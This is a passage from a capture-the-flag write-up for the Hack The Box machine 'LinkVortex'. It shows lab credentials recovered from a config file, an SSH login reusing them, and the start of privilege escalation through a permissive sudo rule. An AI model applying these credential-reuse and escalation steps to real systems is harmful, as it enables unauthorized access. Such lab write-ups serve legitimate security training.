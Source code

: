 ```json
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
```

We have some new creds!

Looking back at the `/etc/passwd` from before, we had a `node` user:
```bash
┌──(kali㉿kali)-[~/htb/boxes/linkvortex]
└─$ ssh node@linkvortex.htb 
```
But that fails. They were storing creds for a user outside the container.

So lets try the username from the `"user"`-entry:
```bash
┌──(kali㉿kali)-[~/htb/boxes/linkvortex]
└─$ ssh bob@linkvortex.htb
bob@linkvortex.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Dec  3 11:41:50 2024 from 10.10.14.62
bob@linkvortex:~$ wc user.txt 
 1  1 33 user.txt
```
And we're in!


# Root

Especially for easy boxes I always do `sudo -l` before doing any enumeration, and we have a hit:

```bash
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```
